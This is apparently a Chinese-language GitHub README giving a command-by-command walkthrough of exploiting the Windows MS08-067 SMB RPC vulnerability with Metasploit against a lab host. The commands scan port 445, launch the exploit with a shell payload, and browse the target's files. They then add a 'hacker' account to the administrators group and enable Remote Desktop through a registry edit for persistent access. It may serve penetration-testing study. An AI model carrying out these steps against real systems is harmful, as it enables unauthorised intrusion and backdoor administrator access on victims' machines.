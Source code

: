 # MS08-067-RPC
该资源是MS08-067远程代码执行漏洞，它是Windows Server服务RPC请求缓冲区溢出漏洞，利用445端口，并通过Metasploit工具获取shell及进行深入的操作。


参考文章：<br />



核心命令：

<br />

```shell
# 端口查询
nmap -n -p 445 --script smb-vuln-ms08-067 192.168.44.135 --open

# 查找漏洞利用模块
msfconsole
search ms08-067

# 漏洞利用
use exploit/windows/smb/ms08_067_netapi
show options
show targets

# 设置相关配置信息
set RHOST 192.168.44.135
set RPORT 445
set payload generic/shell_bind_tcp
set LHOST 192.168.44.136
set target 0
show options

# 反弹shell
exploit
session 1
ipconfig
pwd

# 目标主机文件操作
cd ..
mkdir hacker
dir
cd hacker
echo eastmount>test.txt
sysinfo

# 深度提权及远程连接操作
net user hacker 123456 /add 
net localgroup administrators hacker /add
echo reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f > C:\WINDOWS\system32\3389.bat && call 3389.bat
netstat -an
rdesktop 192.168.44.135
```



